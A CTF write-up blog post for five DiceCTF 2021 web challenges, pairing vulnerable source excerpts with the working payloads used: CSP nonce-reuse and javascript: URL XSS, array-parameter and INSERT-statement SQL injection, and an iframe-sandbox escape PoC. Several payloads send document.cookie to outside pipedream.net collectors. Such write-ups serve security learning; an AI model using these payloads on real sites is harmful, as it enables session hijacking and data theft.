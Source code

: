 ```yaml
---
layout: post
date: 2021-01-30 00:00:10
title: "Dice CTF Write Up"
categories: CTF
tags: [XSS, SQL Injection]
author:
  - Jeongwon Jo

---
```

![](https://github.com/wjddnjs33/image2/blob/main/Dice%20CTF/dice%20main.png?raw=true)

2021년 2월 6일부터 8일 새벽까지는 Dice CTF의 모든 시간을 쏟아 웹 문제를 풀어보았습니다. 한 문제의 12 시간을 연달아 풀어본 적은 없었는 데 이번 대회에선 이렇게 열심히 풀었던 이유는 미국의 RGB 팀에 들어가기 위해서였습니다. RGB 팀의 미국 형님(팀장)은 날 원하는데 팀원들도 있기 때문에 Dice CTF에서 좋은 성과를 내서 팀원들한테도 인정을 받으라는 뉘앙스로 말씀을 하셔서였다. 여튼 이번 대회에서 해결 한 웹 5 문제 Write Up을 작성해보겠습니다.<br>

---
## <span style="color:#21C587"></span> (Web) Babier CSP [107 pts]

> The Babier CSP challenge is a simple CSP Bypass challenge.

```html
<script nonce=LRGWAXOY98Es0zz0QOVmag==>
elem.onclick = () => {
  location = "/?name=" + encodeURIComponent(["apple", "orange", "pineapple", "pear"][Math.floor(4 * Math.random())]);
}
</script>
```
If you check the source code, you can see that the nonce value of the script tag is set as above. I thought that the admin bot was also applying the nonce value as above.

```
<script nonce=LRGWAXOY98Es0zz0QOVmag==>alert(1)</script>
<script nonce=LRGWAXOY98Es0zz0QOVmag==>location.href="https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net"%2bdocument.cookie</script>
```
The payload used is as above.<br>

> FLAG : dice{web_1s_a_stat3_0f_grac3_857720}

---
## <span style="color:#21C587"></span> (Web) Missing Flavortext [111 pts]

>  The Missing Flavortext challenge is a SQL Injection challenge that bypasses single quotas by using the features of express.js.

```javascript
if ([req.body.username, req.body.password].some(v => v.includes('\''))) {
  return res.redirect('/');
}
```
In the code above, single quota is filtered using the includes function. However, this can be bypassed by passing it as an array because it only verifies strings.

```
username=admin&password[]=1&password[]=' or '1'='1
```
The payload used is as above.<br>

> FLAG : dice{sq1i_d03sn7_3v3n_3x1s7_4nym0r3}

---
## <span style="color:#21C587"></span> (Web) Web Utils [121 pts]

> TThe Web Utils challenge is a challenge that triggers XSS using a vulnerability when receiving the req.body value.

```html
// view.html

<head>
  <script async>
    (async () => {
      const id = window.location.pathname.split('/')[2];
      if (! id) window.location = window.origin;
      const res = await fetch(`${window.origin}/api/data/${id}`);
      const { data, type } = await res.json();
      if (! data || ! type ) window.location = window.origin;
      if (type === 'link') return window.location = data;
      if (document.readyState !== "complete")
        await new Promise((r) => { window.addEventListener('load', r); });
      document.title = 'Paste';
      document.querySelector('div').textContent = data;
    })()
  </script>
</head>
```
It is view.html code, and if the type is link in the middle, you can see window.location as data. And if data contains a payload such as `javascript:alert(1)`, you can trigger xss.<br>

```javascript
// api.js
(skip)

module.exports = async (fastify) => {
  fastify.post('createLink', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      const regex = new RegExp('^https?://');
      if (! regex.test(req.body.data))
        return rep
        
(skip)
```
However, if you look at the link creation logic, the value of `req.body.data` is verified with a regular expression. So, you can't put xss payload in the link creation logic.<br>

```javascript
// api.js
(skip)

fastify.post('createPaste', {
    handler: (req, rep) => {
      const uid = database.generateUid(8);
      database.addData({ type: 'paste', ...req.body, uid });
      rep
        .code(200)

(skip)
```
However, if you look at the logic that creates the Pate, there is no verification for req.body, which causes a vulnerability here. Using this, you can give type as link and data as xss payload.

```
{"data":"javascript:alert(1)","type":"link"}
{"data":"javascript:location.href='https://79a9bb50560aa2c77156e03b431dc2b3.m.pipedream.net/'%2bdocument.cookie","type":"link"}
```
The payload used is as above.<br>   

> FLAG : dice{f1r5t_u53ful_j4v45cr1pt_r3d1r3ct}

---
## <span style="color:#21C587"></span> (Web) Build a Panel [130 pts]

>  The Build a Panel challenge is the challenge of reading flags using SQL Injection in the insert statement.

```javascript
app.get('/admin/debug/add_widget', async (req, res) => {
    const cookies = req.cookies;
    const queryParams = req.query;

    if(cookies['token'] && cookies['token'] == secret_token){
        query = `INSERT INTO widgets (panelid, widgetname, widgetdata) VALUES ('${queryParams['panelid']}', '${queryParams['widgetname']}', '${queryParams['widgetdata']}');`;
        db.run(query, (err) => {
            if(err){
                console.log(err);
                res.send('something went wrong');
            }else{
                res.send('success!');
            }
        });
    }else{
        res.redirect('/');
    }
});
```
This is the logic of add_widget running on admin bot. When looking at the query, the input value is entered without any verification, so SQL Injection can be performed.<br>

If we put our panelid in panelid and a query that reads flag in widgetname, a widget is created on our server, and the widget name contains `FLAG`. (panelid is stored in a cookie.)

```
https://build-a-panel.dicec.tf/admin/debug/add_widget?panelid=pocas&widgetname=adfdaf&widgetdata=a'), ('pocas', (select flag from flag), '{"type":"pocas"}')--
```
The payload used is as above.<br> 

> FLAG : dice{ch41n_ChAIn_aNd_m0Re_cHaIn}

---

## <span style="color:#21C587"></span> (Web) Web IDE [196 pts]

> The Web IDE challenge is a challenge that bypasses iframe sandbox and triggers XSS.

- Scenario<br>

1. We are using `allow-scripts` as an option for iframe, and the value we input is executed by the eval function in sandbox.html.
2. The path to the administrator's cookie is /ide, so it is not easy to read the cookie. Because xss payload runs in /sandbox.html.
3. So, first you need to create a separate site and bypass the iframe sandbox.
4. If you bypass the iframe sandbox, you are not limited by sop, and you can freely execute xss payloads.
5. However, since xss payload is executed in `/sandbox.html`, it cannot read the admin cookie.
6. So, create an object using `window.open("/ide")`, and execute xss payload on the object to steal the cookie.<br>

```html
<!doctype html>
<html>
  <head>
    <title>xss poc</title>
    <script>
        async function sendMessage() {
            // window open -> make file -> include it
            const cmd="[].constructor.constructor(\"(async () => {const res = await fetch('https://web-ide.dicec.tf/ide/save', {method:'POST', headers: {'Content-Type': 'application/javascript'}, body: 'const myWindow = window.open(\\\"/ide\\\"); (async (myWindow) => { await setTimeout( async() => {await fetch(`https://en20uuq0p0wxmkp.m.pipedream.net/?flag=${myWindow.document.cookie}`)}, 500) })(myWindow)'}); const file_name = await res.text(); const scr = document.createElement('script'); scr.src = `/ide/saves/${file_name}`; document.body.appendChild(scr);})()\")()"
            
            await new Promise((r) => { window.addEventListener(('load'), r); });
            document.querySelector('iframe')
              .contentWindow
              .postMessage(cmd, '*');  // IDE -> sandbox message
        };
    </script>
  </head>
  <body>
      <img src='x' onerror="sendMessage()" />
      <iframe name='hh' src="https://web-ide.dicec.tf/sandbox.html" frameborder="0"></iframe>
  </body>
</html>
```
The payload used is as above.<br> 

> FLAG : dice{c0uldn7_f1nd_4_b4ckr0nym_f0r_1de}

---
